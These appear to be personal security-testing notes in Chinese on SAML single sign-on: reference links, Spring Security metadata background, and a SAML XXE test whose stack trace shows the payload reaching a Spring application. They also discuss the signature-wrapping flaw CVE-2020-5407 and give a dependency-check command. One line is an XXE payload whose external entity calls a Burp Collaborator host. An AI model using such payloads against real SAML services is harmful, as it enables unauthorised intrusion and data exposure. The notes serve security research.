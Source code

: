 - https://infosecwriteups.com/lets-have-a-saml-talks-402559b34d4e
- https://research.nccgroup.com/2021/03/29/saml-xml-injection/
- https://research.aurainfosec.io/bypassing-saml20-SSO/
- https://jordanpotti.com/2019/08/26/phishing-with-saml-and-sso-providers/
- https://www.economyofmechanism.com/github-saml
- http://blog.intothesymmetry.com/2017/10/slack-saml-authentication-bypass.html
- https://www.nds.ruhr-uni-bochum.de/media/nds/veroeffentlichungen/2012/08/22/BreakingSAML_3.pdf
- https://www.reddit.com/r/netsec/comments/129n13/on_breaking_saml_be_whoever_you_want_to_be_pdf/
- https://www.hackedu.com/blog/analysis-of-common-federated-identity-protocols-openid-connect-vs-oauth-2.0-vs-saml-2.0
- [SAML Raider操作方法](https://blog.compass-security.com/2015/07/saml-burp-extension/)
- [How to Hunt Bugs in SAML; a Methodology - Part I](https://epi052.gitlab.io/notes-to-self/blog/2019-03-07-how-to-test-saml-a-methodology/)


### SAML相关知识背景
metadata，是一个XML文档，包含了SAML-enabled的DP和SP的必要信息。包含，比如说：URLs of endpoints, information about supported bindings, identifiers and public keys.

通常是给你自己的SP生成的，然后提供给所有其他的你想要进行SSO的DP。
可以通过这个Spring Security配置来启用：
```
<security:custom-filter before="FIRST" ref="metadataGeneratorFilter"/>
```
当Spring Security处理第一个URL请求时，这个filter就会被调用。


- [Metadata configuration](https://docs.spring.io/spring-security-saml/docs/current/reference/html/configuration-metadata.html)



### 名词概念
XML Signature Wrapping (XSW)

### SAML XXE
在原始samlresponse的基础上插入
使用XXE的payload：
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "wllmh29c901j8fuxg3y1bcoi2980wp.burpcollaborator.net"> %xxe; ]>
```
在这里，原封不动的到达：
org/springframework/security/saml2/provider/service/authentication/OpenSamlAuthenticationProvider#authenticate(Authentication authentication)
![image](https://user-images.githubusercontent.com/30398606/145777492-367f6330-c3b4-461e-90ef-c92a9cfcf63a.png)

```
authenticate:443, OpenSamlAuthenticationProvider (org.springframework.security.saml2.provider.service.authentication)
authenticate:68, Saml2AuthenticationManager (cn.com.xxxxxx.core.framework)
attemptAuthentication:103, Saml2WebSsoAuthenticationFilter (org.springframework.security.saml2.provider.service.servlet.filter)
doFilter:222, AbstractAuthenticationProcessingFilter (org.springframework.security.web.authentication)
doFilter:212, AbstractAuthenticationProcessingFilter (org.springframework.security.web.authentication)
doFilter:336, FilterChainProxy$VirtualFilterChain (org.springframework.security.web)
doFilterInternal:71, Saml2MetadataFilter (org.springframework.security.saml2.provider.service.web)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
doFilter:336, FilterChainProxy$VirtualFilterChain (org.springframework.security.web)
doFilterInternal:157, Saml2WebSsoAuthenticationRequestFilter (org.springframework.security.saml2.provider.service.servlet.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
doFilter:336, FilterChainProxy$VirtualFilterChain (org.springframework.security.web)
doFilter:103, LogoutFilter (org.springframework.security.web.authentication.logout)
doFilter:89, LogoutFilter (org.springframework.security.web.authentication.logout)
doFilter:336, FilterChainProxy$VirtualFilterChain (org.springframework.security.web)
doFilterInternal:117, CsrfFilter (org.springframework.security.web.csrf)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
doFilter:336, FilterChainProxy$VirtualFilterChain (org.springframework.security.web)
doHeadersAfter:90, HeaderWriterFilter (org.springframework.security.web.header)
doFilterInternal:75, HeaderWriterFilter (org.springframework.security.web.header)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
doFilter:336, FilterChainProxy$VirtualFilterChain (org.springframework.security.web)
doFilter:110, SecurityContextPersistenceFilter (org.springframework.security.web.context)
doFilter:80, SecurityContextPersistenceFilter (org.springframework.security.web.context)
doFilter:336, FilterChainProxy$VirtualFilterChain (org.springframework.security.web)
doFilterInternal:55, WebAsyncManagerIntegrationFilter (org.springframework.security.web.context.request.async)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
doFilter:336, FilterChainProxy$VirtualFilterChain (org.springframework.security.web)
doFilterInternal:211, FilterChainProxy (org.springframework.security.web)
doFilter:183, FilterChainProxy (org.springframework.security.web)
invokeDelegate:358, DelegatingFilterProxy (org.springframework.web.filter)
doFilter:271, DelegatingFilterProxy (org.springframework.web.filter)
internalDoFilter:190, ApplicationFilterChain (org.apache.catalina.core)
doFilter:163, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:100, RequestContextFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:190, ApplicationFilterChain (org.apache.catalina.core)
doFilter:163, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:93, FormContentFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:190, ApplicationFilterChain (org.apache.catalina.core)
doFilter:163, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:142, SessionRepositoryFilter (org.springframework.session.web.http)
doFilter:82, OncePerRequestFilter (org.springframework.session.web.http)
internalDoFilter:190, ApplicationFilterChain (org.apache.catalina.core)
doFilter:163, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:96, WebMvcMetricsFilter (org.springframework.boot.actuate.metrics.web.servlet)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:190, ApplicationFilterChain (org.apache.catalina.core)
doFilter:163, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:201, CharacterEncodingFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:190, ApplicationFilterChain (org.apache.catalina.core)
doFilter:163, ApplicationFilterChain (org.apache.catalina.core)
invoke:202, StandardWrapperValve (org.apache.catalina.core)
invoke:97, StandardContextValve (org.apache.catalina.core)
invoke:542, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:143, StandardHostValve (org.apache.catalina.core)
invoke:92, ErrorReportValve (org.apache.catalina.valves)
invoke:78, StandardEngineValve (org.apache.catalina.core)
service:357, CoyoteAdapter (org.apache.catalina.connector)
service:382, Http11Processor (org.apache.coyote.http11)
process:65, AbstractProcessorLight (org.apache.coyote)
process:893, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1723, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1149, ThreadPoolExecutor (java.util.concurrent)
run:624, ThreadPoolExecutor$Worker (java.util.concurrent)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:748, Thread (java.lang)
```

但是：


搜snyk搜到一个CVE-2020-5407，
> Spring Security versions 5.2.x prior to 5.2.4 and 5.3.x prior to 5.3.2 contain a signature wrapping vulnerability during SAML response validation. When using the `spring-security-saml2-service-provider` component, a malicious user can carefully modify an otherwise valid SAML response and append an arbitrary assertion that Spring Security will accept as valid.


https://security.snyk.io/search?type=any&q=spring-security-saml2
但是这个影响范围是：
```
[5.3.0.RELEASE,5.3.2.RELEASE) [5.2.0.RELEASE,5.2.4.RELEASE)
```
查看项目的直接和间接依赖：
```
mvn dependency:tree -Dincludes=org.springframework.security:spring-security-saml2-service-provider
```



参考：
- https://tanzu.vmware.com/security/cve-2020-5407
- https://security.snyk.io/vuln/SNYK-JAVA-ORGSPRINGFRAMEWORKSECURITY-569093
- https://blog.spoock.com/2018/10/23/java-xxe/
- https://github.com/spring-projects/spring-security/commit/69b1bc62ffe7c1e1bbf508951efa1e0235954198
- https://github.com/RUB-NDS/SAML-XXE-Test/blob/master/default_phase1_vectors.yml
